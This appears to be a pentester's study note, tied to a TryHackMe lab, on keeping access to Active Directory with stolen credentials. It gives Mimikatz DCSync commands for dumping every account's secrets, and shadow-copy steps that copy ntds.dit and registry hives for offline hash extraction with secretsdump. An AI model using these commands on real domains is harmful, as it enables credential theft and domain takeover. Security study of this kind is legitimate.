 # AD Persistence With Credentials

This technique is the least reliable. Credential are:
- Domain restricted, but
	- Unless Account has `domain replication permissions`, which is required for [[AD-DCSync-Attack]]s
- Credential are rotated(changed) and can be by Blue Team, but
	- Near-privileged credentials for persistence is tactic of just enough to re-takeover, we need:
		- Credentials with Local Administrator Rights on as many machines as possible
		- Service Accounts that have delegation permissions for [[AD-Kerberos-Delegation-Exploitation]]
		- Accounts used for privileged AD services: WSUS, SCCM, etc   

## DCSync All

[[Mimikatz-Cheatsheet]]
```powershell
# mimikatz
lsadump::dcsync /domain:$domain /user:$user
# If want to dcsync every account mimikatz has builtin logging 
log dcdump.txt
```

Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information.

#### Shadow Copies

Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes use it copy `ntds.dit`, `hlkm\SYSTEM`, `hlkm\SAM` and `hlkm\SECURITY`. Exfiltration ([[Data-Exfiltration-Defined]]) via some method is required.
```powershell
# Snapshot 
vshadow.exe -nw -p  C:
# And copy 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
# Exfiltrate back to Kali
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)